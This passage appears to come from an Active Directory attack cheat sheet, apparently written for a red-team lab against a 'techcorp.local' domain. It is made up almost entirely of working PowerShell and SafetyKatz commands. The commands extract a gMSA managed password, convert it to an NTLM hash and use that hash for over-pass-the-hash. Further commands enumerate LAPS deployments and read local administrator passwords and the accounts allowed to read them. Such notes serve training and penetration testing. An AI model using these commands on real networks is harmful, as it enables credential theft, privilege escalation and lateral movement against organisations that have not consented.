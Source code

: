     - Step 3. Fetch the Password Blob
    $Passwordblob = (Get-ADServiceAccount -Identity jumpone -Properties msDS-ManagedPassword).'msDS-ManagedPassword'

    - Step 4. Convert the password blob to NTLM hash
    Import-Module C:\AD\Tools\DSInternals_v4.7\DSInternals\DSInternals.psd1
    $decodedpwd = ConvertFrom-ADManagedPasswordBlob $Passwordblob
    ConvertTo-NTHash -Password $decodedpwd.SecureCurrentPassword

    - Step 5. Use the passwd hash
    C:\AD\Tools\SafetyKatz.exe "sekurlsa::opassth /user:jumpone /domain:us.techcorp.local /ntlm:0a02c684cc0fa1744195edd1aec43078 /run:cmd.exe" "exit"
    ```

### Local Administrator Password Solution (LAPS)

    ```powershell

    # Check for presence of AdmPwd.dll at below location on the Machine locally
    ls 'C:\Program Files\LAPS\CSE\AdmPwd.dll'

    # Check existance of LAPS in domain
    Get-AdObject 'CN=ms-mcs-admpwd,CN=Schema,CN=Configuration,DC=<DOMAIN>,DC=<DOMAIN>'
    Get-DomainComputer | Where-object -property ms-Mcs-AdmPwdExpirationTime | select-object samaccountname
    Get-DomainGPO -Identity *LAPS*

    # Check to which computers the LAPS GPO is applied to
    Get-DomainOU -GPLink "Distinguishedname from GET-DOMAINGPO -Identity *LAPS*" | select name, distinguishedname
    Get-DomainComputer -Searchbase "LDAP://<distinguishedname>" -Properties Distinguishedname

    # Parse the GPO policy file for LAPS (https://github.com/PowerShell/GPRegistryPolicy))
    Parse-PolFile "<GPCFILESYSPATH FROM GET-DOMAINGPO>\Machine\Registry.pol" | select ValueName, ValueData

    # Fetch the password for given system, if current user has Read/GenericAll access
    Get-DomainObject -Identity us-mailmgmt | select -ExpandProperty ms-mcs-admpwd
    Get-DomainComputer -Identity us-mailmgmt | select name,ms-mcs-admpwd,ms-mcs-admpwdexpirationtime

    # Find users who can read the LAPS password of machine in OU
    Get-DomainOU | Get-DomainObjectAcl -ResolveGUIDs | Where-Object { ($_.ObjectAceType -like 'ms-Mcs-AdmPwd') -and ($_.ActiveDirectoryRights -match 'ReadProperty')}
